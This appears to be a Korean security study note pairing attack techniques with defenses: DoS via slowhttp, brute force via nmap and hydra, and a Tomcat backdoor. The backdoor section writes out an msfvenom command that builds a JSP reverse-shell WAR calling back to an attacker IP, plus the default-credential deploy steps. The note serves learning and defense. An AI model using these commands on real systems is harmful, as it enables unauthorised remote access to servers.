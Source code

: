 # 공격기법: DOS공격
## 공격툴: slowhttp in kali-linux-2025
# 대응방법: fault tolerence
## 방어툴: k8s의 replicaset 기능 
---
# 공격기법: Brute Force Attack (무차별 대입 공격)
## 공격툴: HUB(device), nmap&hydra in kali-linux-2025
# 대응방법: IDS(snort), IPS(fail2ban, port-security)
## 방어툴1: IPS(port-security)
## 방어툴2: IPS(fail2ban)
## 방어툴3: IDS(snort)
---
# 공격기법: Backdoor
## 공격툴: nmap&msfvenom in kali-linux-2025
kalilinux-2025 안에서 명령어 3줄이면 ReverseShell 파일을 심는 Malware 공격할 수 있다. 단, ApacheTomcat 생서 처음에만 먹히는 공격이다. 초기 비밀번호를 잘 관리하면 방어할 수 있다. \
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<공격자 IP 주소> LPORT=4444 -f war > shell.wa \
nmap -sV -sC <타겟 IP 주소> \
tomcat 으로 기본값으로 manager 로그인 시도 \
http://<타겟 IP>:8080/shell/ 실행됨
